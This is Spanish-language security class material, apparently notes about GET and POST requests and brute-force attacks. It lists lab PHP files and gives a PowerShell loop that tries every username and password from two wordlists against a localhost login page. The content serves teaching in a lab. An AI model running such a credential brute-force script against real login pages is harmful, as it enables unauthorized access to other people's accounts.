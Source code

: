# Peticiones a servidores (GET, POST, fuerza bruta)

## Introducción
```
GetPost/postindex.php
GetPost/getindex.php
GetPost/examplepost.php
GetPost/exampleget.php
JavaScript/jh.html
JavaScript/sjh.html
JavaScript/ssjh.html
UserAgent/useragentindex.php
FuerzaBruta/index.php
FuerzaBruta/postraw.php
```

## Códigos sobre fuerza bruta
* https://github.com/jesusninoc/Seguridad/tree/master/GetPost
* https://github.com/jesusninoc/Seguridad/tree/master/FuerzaBruta
* https://github.com/jesusninoc/ClasesSeguridad/blob/master/2019-02-21.md
* https://github.com/jesusninoc/ClasesSeguridad/blob/master/2019-02-25.md
* https://github.com/jesusninoc/ClasesSeguridad/blob/master/2018-01-11.md

## Realizar fuerza bruta (método POST) desde PowerShell
```PowerShell
foreach($usuario in gc .\users.txt)
{
    foreach($password in gc .\passwords.txt)
    {
        $postParams = @{'username'=$usuario;'password'=$password}
        (Invoke-WebRequest -Uri "http://localhost/seguridad/FuerzaBruta/postraw.php" -Method POST -Body $postParams).content + " " + $usuario + " " + $password
    }
}
```

## Entender variables en GET y POST

### APAGAR Y ENCENDER EL ENCHUFE INTELIGENTE TP-LINK WI-FI HS100 DESDE POWERSHELL
* https://www.jesusninoc.com/11/25/apagar-y-encender-el-enchufe-inteligente-tp-link-wi-fi-hs100-desde-powershell/

### Enviar un formulario de contacto de WordPress desde PowerShell
* https://www.jesusninoc.com/10/10/enviar-un-formulario-de-contacto-de-wordpress-desde-powershell/

### Realizar petición HTTP desde PowerShell utilizando el método GET
* https://www.jesusninoc.com/03/31/realizar-peticion-http-desde-powershell-utilizando-el-metodo-get/
